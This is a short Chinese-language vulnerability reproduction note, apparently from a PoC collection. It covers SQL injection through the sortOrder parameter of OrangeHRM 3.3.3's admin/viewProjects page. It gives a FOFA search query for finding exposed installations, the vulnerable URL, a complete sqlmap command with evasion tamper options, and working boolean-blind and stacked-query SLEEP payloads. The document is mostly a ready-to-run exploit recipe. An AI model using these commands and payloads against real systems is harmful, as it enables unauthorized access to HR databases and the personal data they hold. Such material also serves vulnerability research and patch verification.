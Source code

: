 **漏洞名称**

OrangeHRM SQL 注入漏洞

**漏洞影响**

OrangeHRM 3.3.3

**漏洞描述**

OrangeHRM 3.3.3 allows admin/viewProjects sortOrder SQL injection.

**FOFA搜索语句**

app="OrangeHRM-产品"

**漏洞复现**

```yaml
URL: https://$HOST/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC
```

sqlmap运行

```sh
python3 sqlmap.py -r sqli --force-ssl --level 5 --risk 3 --random-agent --tamper between,charencode --dbms mysql --ignore-redirects --technique BS --flush-session --batch --current-user --string="Found"
```

sqlmap payload

```yaml

Parameter: #1* (URI)
  Type: boolean-based blind
  Title: MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause
  Payload: https://192.168.1.28/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC,(SELECT (CASE WHEN (5240=5240) THEN 1 ELSE 5240*(SELECT 5240 FROM INFORMATION_SCHEMA.PLUGINS) END))

  Type: stacked queries
  Title: MySQL >= 5.0.12 stacked queries (comment)
  Payload: https://192.168.1.28/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC;SELECT SLEEP(5)#

```

